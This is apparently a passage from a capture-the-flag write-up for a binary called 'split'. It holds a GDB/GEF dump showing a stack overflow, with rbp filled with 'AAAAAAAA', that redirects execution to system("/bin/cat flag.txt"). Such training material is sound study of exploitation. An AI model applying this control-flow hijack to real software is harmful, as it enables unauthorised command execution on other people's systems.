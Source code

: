 ```
```

In the GDB output below, we are now executing `system("/bin/cat flag.txt")` which will dump the flag.

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0x0               
$rcx   : 0x00007f087be2dff3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007ffed1725320  →  0x00007ffed172540a  →  0x000000007ffed172
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007f087befe723  →  0xf00670000000000a
$rdi   : 0x0000000000601060  →  "/bin/cat flag.txt"
$rip   : 0x0000000000400560  →  <system@plt+0> jmp QWORD PTR [rip+0x200aba]        # 0x601020 <system@got.plt>
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0xfffffffffffff24b
$r11   : 0x246             
$r12   : 0x00000000004005b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffed1725320│+0x0000: 0x00007ffed172540a  →  0x000000007ffed172    ← $rsp
0x00007ffed1725328│+0x0008: 0x0000000100000000
0x00007ffed1725330│+0x0010: 0x0000000000400697  →  <main+0> push rbp
0x00007ffed1725338│+0x0018: 0x00007f087bd657d9  →  <init_cacheinfo+297> mov rbp, rax
0x00007ffed1725340│+0x0020: 0x0000000000000000
0x00007ffed1725348│+0x0028: 0x0555124cfbad465c
0x00007ffed1725350│+0x0030: 0x00000000004005b0  →  <_start+0> xor ebp, ebp
0x00007ffed1725358│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400550 <puts@plt+0>     jmp    QWORD PTR [rip+0x200ac2]        # 0x601018 <puts@got.plt>
     0x400556 <puts@plt+6>     push   0x0
     0x40055b <puts@plt+11>    jmp    0x400540
 →   0x400560 <system@plt+0>   jmp    QWORD PTR [rip+0x200aba]        # 0x601020 <system@got.plt>
     0x400566 <system@plt+6>   push   0x1
     0x40056b <system@plt+11>  jmp    0x400540
     0x400570 <printf@plt+0>   jmp    QWORD PTR [rip+0x200ab2]        # 0x601028 <printf@got.plt>
     0x400576 <printf@plt+6>   push   0x2
     0x40057b <printf@plt+11>  jmp    0x400540
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split", stopped 0x400560 in system@plt (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400560 → system@plt()
[#1] 0x7ffed172540a → jb 0x7ffed17253dd
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

